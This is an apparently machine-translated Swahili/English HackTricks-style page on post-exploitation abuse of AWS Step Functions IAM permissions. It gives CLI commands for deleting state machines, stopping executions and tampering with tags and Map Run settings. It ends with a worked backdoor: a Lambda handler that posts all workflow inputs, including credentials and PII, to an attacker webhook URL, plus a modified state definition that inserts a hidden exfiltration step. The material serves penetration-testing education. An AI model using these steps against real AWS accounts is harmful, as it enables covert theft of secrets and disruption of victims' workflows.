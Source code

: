 # AWS - Step Functions Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Step Functions

Kwa maelezo zaidi kuhusu huduma hii ya AWS, angalia:

{{#ref}}
../../aws-services/aws-stepfunctions-enum.md
{{#endref}}

### `states:RevealSecrets`

Ruhusa hii inaruhusu **reveal secret data inside an execution**. Ili kufanya hivyo, inahitajika kuweka Inspection level kuwa TRACE na parameta revealSecrets kuwa true.

<figure><img src="../../../images/image (348).png" alt=""><figcaption></figcaption></figure>

### `states:DeleteStateMachine`, `states:DeleteStateMachineVersion`, `states:DeleteStateMachineAlias`

An attacker mwenye ruhusa hizi angeweza kufuta kabisa state machines, versions zao, na aliases. Hii inaweza kuvuruga workflows muhimu, kusababisha upotevu wa data, na kuhitaji muda mkubwa kurejesha na kupona state machines zilizoathiriwa. Zaidi ya hayo, itamruhusu attacker kufunika alama za shughuli zilizotumiwa, kuvuruga uchunguzi wa forensiki, na uwezekano kuharibu operesheni kwa kuondoa michakato muhimu ya automation na konfigurishaji za state.

> [!NOTE]
>
> - Kufuta state machine pia unafuta versions zote zinazohusiana na aliases zake.
> - Kufuta state machine alias hakufuti state machine versions zinazorejelea alias hii.
> - Haiwezekani kufuta state machine version ambayo kwa sasa inarejelewa na alias moja au zaidi.
```bash
# Delete state machine
aws stepfunctions delete-state-machine --state-machine-arn <value>
# Delete state machine version
aws stepfunctions delete-state-machine-version --state-machine-version-arn <value>
# Delete state machine alias
aws stepfunctions delete-state-machine-alias --state-machine-alias-arn <value>
```
- **Athari Zinazowezekana**: Kuingiliwa kwa workflows muhimu, upotezaji wa data, na kusimamishwa kwa shughuli za uendeshaji.

### `states:UpdateMapRun`

Mdukuzi mwenye ruhusa hii ataweza kubadilisha Map Run failure configuration na mipangilio ya parallel, akiwa na uwezo wa kuongeza au kupunguza kiwango cha juu cha utekelezaji wa child workflow zinazoruhusiwa, jambo linaloathiri moja kwa moja utendaji wa huduma. Zaidi ya hayo, mdukuzi anaweza kuingilia asilimia ya makosa iliyokubaliwa na idadi yake (tolerated failure percentage and count), akipunguza thamani hii hadi 0 ili kila wakati kipengee kinapofeli, Map Run nzima itafeli, ikiaathiri moja kwa moja state machine execution na kugandisha workflows muhimu.
```bash
aws stepfunctions update-map-run --map-run-arn <value> [--max-concurrency <value>] [--tolerated-failure-percentage <value>] [--tolerated-failure-count <value>]
```
- **Athari Inayowezekana**: Kupungua kwa utendaji, na kuingiliwa kwa mitiririko muhimu ya kazi.

### `states:StopExecution`

Mdukuzi mwenye ruhusa hii anaweza kusimamisha utekelezaji wa mashine yoyote ya hali, akivuruga mitiririko na michakato inayofanyika. Hii inaweza kusababisha miamala isiyokamilika, kusimamishwa kwa shughuli za biashara, na uwezekano wa uharibifu wa data.

> [!WARNING]
> Kitendo hiki hakitegemezwi na **express state machines**.
```bash
aws stepfunctions stop-execution --execution-arn <value> [--error <value>] [--cause <value>]
```
- **Athari Inayoweza Kutokea**: Kuvuruga mchakato wa kazi unaoendelea, kusimamishwa kwa operesheni, na uwezekano wa uharibifu wa data.

### `states:TagResource`, `states:UntagResource`

Mshambuliaji anaweza kuongeza, kubadilisha, au kuondoa tags kutoka kwa rasilimali za Step Functions, akivuruga ugawaji wa gharama wa shirika lako, ufuatiliaji wa rasilimali, na sera za udhibiti wa upatikanaji zinazotegemea tags.
```bash
aws stepfunctions tag-resource --resource-arn <value> --tags Key=<key>,Value=<value>
aws stepfunctions untag-resource --resource-arn <value> --tag-keys <key>
```
**Athari Inayoweza Kutokea**: Kuvuruga ugawaji wa gharama, ufuatilaji wa rasilimali, na tag-based access control policies.

---

### `states:UpdateStateMachine`, `lambda:UpdateFunctionCode`

Mshambuliaji anayepata udhibiti wa mtumiaji au cheo lenye ruhusa zifuatazo:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AllowUpdateStateMachine",
"Effect": "Allow",
"Action": "states:UpdateStateMachine",
"Resource": "*"
},
{
"Sid": "AllowUpdateFunctionCode",
"Effect": "Allow",
"Action": "lambda:UpdateFunctionCode",
"Resource": "*"
}
]
}
```
...anaweza kufanya **high-impact and stealthy post-exploitation attack** kwa kuchanganya Lambda backdooring na Step Function logic manipulation.

Senario hii inadhani kuwa mwathiriwa anatumia **AWS Step Functions kuratibu workflows zinazoshughulikia input nyeti**, kama vile credentials, tokens, au PII.

Mfano wa invocation ya mwathiriwa:
```bash
aws stepfunctions start-execution \
--state-machine-arn arn:aws:states:us-east-1:<victim-account-id>:stateMachine:LegitStateMachine \
--input '{"email": "victim@example.com", "password": "hunter2"}' --profile victim
```
Ikiwa Step Function imewekwa kuitisha Lambda kama `LegitBusinessLogic`, attacker anaweza kuendelea na **aina mbili za attack za kificho**:

---

####  Kusasisha Lambda function

attacker anabadilisha msimbo wa Lambda function inayotumika tayari na Step Function (`LegitBusinessLogic`) ili kwa siri exfiltrate data za ingizo.
```python
# send_to_attacker.py
import requests

def lambda_handler(event, context):
requests.post("https://webhook.site/<attacker-id>/exfil", json=event)
return {"status": "exfiltrated"}
```

```bash
zip function.zip send_to_attacker.py

aws lambda update-function-code \
--function-name LegitBusinessLogic \
--zip-file fileb://function.zip -profile attacker
```
---

#### Ongeza Malicious State kwenye Step Function

Badala yake, attacker anaweza kuingiza **exfiltration state** mwanzoni mwa workflow kwa kusasisha ufafanuzi wa Step Function.
```malicious_state_definition.json
{
"Comment": "Backdoored for Exfiltration",
"StartAt": "OriginalState",
"States": {
"OriginalState": {
"Type": "Task",
"Resource": "arn:aws:lambda:us-east-1:<victim-id>:function:LegitBusinessLogic",
"End": true
}
}
}

```

```bash
aws stepfunctions update-state-machine \
--state-machine-arn arn:aws:states:us-east-1:<victim-id>:stateMachine:LegitStateMachine \
--definition file://malicious_state_definition.json --profile attacker
```
Mshambuliaji anaweza hata kwa ustadi zaidi kusasisha state definition kuwa kitu kama hiki
{
"Comment": "Backdoored for Exfiltration",
"StartAt": "ExfiltrateSecrets",
"States": {
"ExfiltrateSecrets": {
"Type": "Task",
"Resource": "arn:aws:lambda:us-east-1:victim-id:function:SendToAttacker",
"InputPath": "$",
"ResultPath": "$.exfil",
"Next": "OriginalState"
},
"OriginalState": {
"Type": "Task",
"Resource": "arn:aws:lambda:us-east-1:victim-id:function:LegitBusinessLogic",
"End": true
}
}
}
ambapo mwathirika hatagundua tofauti

---

### Mipangilio ya Mwathirika (Context for Exploit)

- Step Function (`LegitStateMachine`) inatumika kuchakata input nyeti za mtumiaji.
- Inaita Lambda functions moja au zaidi kama `LegitBusinessLogic`.

---

**Athari Inayowezekana**:
- Utoroshaji kimya wa data nyeti ikijumuisha secrets, credentials, API keys, na PII.
- Hakuna makosa au kushindwa kwaonekana katika utekelezaji wa workflow.
- Gumu kugundua bila kukagua code za Lambda au execution traces.
- Inawezesha persistence ya muda mrefu ikiwa backdoor inabaki katika code au ASL logic.


{{#include ../../../../banners/hacktricks-training.md}}
